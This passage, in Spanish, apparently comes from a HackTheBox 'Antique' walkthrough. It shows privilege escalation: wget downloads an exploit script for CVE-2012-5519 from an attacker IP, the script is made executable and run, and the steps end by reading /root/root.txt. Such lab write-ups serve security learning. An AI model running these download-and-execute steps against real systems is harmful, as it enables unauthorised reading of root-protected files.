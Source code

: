Ahora con [[wget]] vamos a descargar el binario a ejecutar del [[CVE-2012-5519]] con el comando `wget http://10.10.16.15/cups-root-file-read.sh`
Le damos permiso de ejecucion al archivo con [[chmod]] usando `chmod +x cups-root-file-read.sh`

![[Antique30.png]]
Ahora lo vamos a ejecutar usando `./cups-root-file-read.sh`

Y vamos a leer la flag poniendo ``/root/root.txt``


----
# Creditos

Writeup oficial HackTheBox
[Writeup de vickyaryan7](https://vickyaryan7.medium.com/hackthebox-walkthrough-antique-060561357627)

